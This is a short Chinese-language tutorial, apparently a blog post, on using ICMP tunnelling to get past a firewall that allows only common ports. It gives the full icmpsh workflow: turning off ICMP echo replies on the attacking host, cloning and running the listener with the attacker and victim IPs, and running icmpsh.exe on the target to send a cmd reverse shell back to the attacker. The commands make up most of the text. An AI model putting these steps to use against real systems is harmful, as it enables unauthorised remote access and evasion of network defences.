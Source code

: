 ```yaml
---
title: icmp隧道绕过防火墙
categories:
- tools
tags:
- tools
---
```


当有防火墙只允许80、443等常见端口或常见的数据包协议的时候，其他类型的数据包和不允许访问的端口就会被过滤。

icmp隧道就是将不被允许的数据包使用icmp协议进行封装。同理可得，除了icmp隧道，还可以使用其他类型的协议，例如IPv6、TCP、UDP等等。

[https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)
这是一个使用icmp隧道的工具，可以将内网机器与攻击机进行连接。

```
在攻击机上运行该命令，关闭icmp请求应答
sysctl -w net/ipv4/icmp_echo_ignore_all=1
---

git clone https://github.com/inquisb/icmpsh
cd icmpsh
python icmpsh_m.py 攻击机IP 受害机器ip
```
在目标机器上运行以下命令
`icmpsh.exe -t 攻击机ip -d 500 -b 30 -s 128`

此时攻击机就会返回受害机器的cmd shell。

icmpsh缺点是只能运行在目标机器是windows的系统上。如果目标机器是linux系统，那么就要用其他办法绕过防火墙。


